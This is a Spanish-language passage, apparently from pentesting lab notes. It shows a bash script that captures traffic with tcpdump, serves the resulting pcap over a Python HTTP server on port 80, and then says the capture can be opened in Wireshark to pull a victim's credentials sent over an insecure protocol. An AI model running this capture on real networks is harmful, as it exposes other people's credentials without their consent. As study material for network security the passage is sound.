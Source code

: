 Lo haríamos de la siguiente forma:
```bash
#!/bin/bash

# Configuración
INTERFAZ="eth0"        
ARCHIVO_DUMP="captura.pcap"
PUERTO_HTTP="80"

# Comando tcpdump
tcpdump -i $INTERFAZ -w $ARCHIVO_DUMP &

# Esperar unos segundos para asegurarte de que tcpdump haya comenzado la captura
sleep 5

# Levanta un servidor HTTP en Python
python3 -m http.server $PUERTO_HTTP &

sleep 30

proceso_tcpdump=$(pgrep tcpdump)
proceso_python=$(pgrep python3)

kill $proceso_tcpdump
kill $proceso_python

echo "Captura finalizada"
```
Levantamos el script:
![[Pasted image 20231225114847.png]]
Y nos habrá generado un archivo .pcap compartido por la red con python, que si lo analizamos con wireshark podemos interceptar credenciales si la víctima se ha logueado con un protocolo vulnerable:
![[Pasted image 20231225114925.png]]
![[Pasted image 20231225114936.png]]
